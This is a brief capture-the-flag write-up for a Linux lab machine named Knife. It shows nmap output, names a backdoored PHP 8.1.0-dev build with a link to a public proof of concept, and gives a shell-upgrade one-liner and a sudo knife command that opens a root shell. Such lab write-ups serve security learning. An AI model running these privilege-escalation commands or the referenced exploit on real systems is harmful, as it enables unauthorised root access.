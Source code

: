 # About
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell. 

# Enumeration
```
nmap 10.129.106.194 -p- -sV -sC --open
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# Web Enum
php version `8.1.0-dev` [POC](https://www.exploit-db.com/exploits/49933)


# Exploit

![](Images/Pasted%20image%2020250502115610.png)


# Priv Esc


![](Images/Pasted%20image%2020250502115644.png)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

https://gtfobins.github.io/gtfobins/knife/

```
sudo knife exec -E 'exec "/bin/sh"'
```

![](Images/Pasted%20image%2020250502121528.png)